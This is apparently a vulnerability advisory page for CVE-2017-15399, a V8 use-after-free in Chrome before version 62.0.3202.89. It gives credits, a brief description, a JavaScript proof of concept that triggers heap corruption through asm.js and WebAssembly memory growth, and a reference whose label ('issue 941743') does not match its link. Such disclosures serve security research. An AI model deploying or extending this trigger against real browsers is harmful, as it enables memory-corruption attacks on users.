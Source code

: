 # CVE-2017-15399
* Date : October 2017
* Credit :Zhao Qixun (Qihoo 360 Vulcan Team)

## Description
A use after free in V8 in Google Chrome prior to 62.0.3202.89 allowed a remote attacker to potentially exploit heap corruption via a crafted HTML page.

## PoC
```js
/**
	author:Qixun Zhao Of Qihoo 360 Vulcan Team
	twitter:@S0rryMybad
	weibo:http://weibo.com/babyboaes
***/

function module(stdlib,foreign,buffer){
	"use asm";
	var fl = new stdlib.Uint32Array(buffer);
	function f1(x){
		x = x | 0;
		fl[0] = x;
		fl[0x10000] = x;
		fl[0x100000] = x;
	}
	return f1;
}

var global = {Uint32Array:Uint32Array};
var env = {};
memory = new WebAssembly.Memory({initial:200});
var buffer = memory.buffer;
evil_f = module(global,env,buffer);

zz = {};
zz.toString = function(){
	alert(1);
	Array.prototype.slice.call([]);
	return 0xffffffff;
}
evil_f(3);
memory.grow(1);
evil_f(zz);
```

## Reference

[issue 941743](https://bugs.chromium.org/p/chromium/issues/detail?id=776677)